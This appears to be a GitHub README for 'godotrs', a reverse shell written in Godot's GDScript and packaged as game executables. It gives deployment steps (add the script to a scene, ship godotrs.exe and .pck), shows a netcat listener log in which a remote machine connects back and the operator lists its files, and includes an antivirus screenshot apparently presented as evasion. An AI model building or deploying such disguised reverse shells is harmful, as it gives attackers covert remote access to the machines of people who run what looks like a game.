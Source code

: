 # godotrs

portable godot (GDScript) based reverse shell

https://godotengine.org/download/

https://docs.godotengine.org/en/3.1/getting_started/scripting/index.html

**Supports**
- GDScript (godot)
- C# (+Mono)

**Usage**

Create project, add script to main scene or trigger scene. 

deploy & run:
- godotrs.exe
- godotrs.pck

```
root@kali:~# nc -lvp 9999
listening on [any] 9999 ...
192.168.1.71: inverse host lookup failed: Unknown host
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.71] 58913
ls -lha
>[total 107664
drwxr-xr-x  14 WOPR  staff   448B Dec 17 09:15 .
drwxr-xr-x@  5 WOPR  staff   160B Dec 17 06:59 ..
drwxr-xr-x   4 WOPR  staff   128B Dec 17 06:59 .import
-rw-r--r--   1 WOPR  staff   500B Dec 17 08:47 Popup.gd
-rw-r--r--   1 WOPR  staff   191B Dec 17 09:15 Popup.tscn
-rw-r--r--   1 WOPR  staff   163B Dec 17 09:15 default_env.tres
-rw-r--r--   1 WOPR  staff   774B Dec 17 09:12 export_presets.cfg
-rw-r--r--   1 WOPR  staff   9.6M Dec 17 09:06 godotrs.appx
-rw-r--r--@  1 WOPR  staff    15M Dec 17 09:02 godotrs.dmg
-rw-r--r--   1 WOPR  staff    27M Dec 17 09:12 godotrs.exe
-rw-r--r--   1 WOPR  staff    18K Dec 17 09:12 godotrs.pck
-rw-r--r--@  1 WOPR  staff   7.4K Dec 17 06:59 icon.png
-rw-r--r--   1 WOPR  staff   640B Dec 17 06:59 icon.png.import
-rw-r--r--@  1 WOPR  staff   736B Dec 17 09:15 project.godot
```

**CLI**

It's possible to execute GDScripts directly from a Godot installation if it's available on the system. 

https://docs.godotengine.org/en/3.1/getting_started/editor/command_line_tutorial.html

```
user@host:~/newgame$ godot -s sayhello.gd
```

**AV**

<img width="1401" alt="Screenshot 2019-12-17 at 09 13 29" src="https://user-images.githubusercontent.com/56988989/70982133-5d4dce80-20ae-11ea-84ca-e7b76b4847c7.png">

**Limitations**
- OpenGL 2.1 / OpenGL ES 2.0 compatible hardware to execute
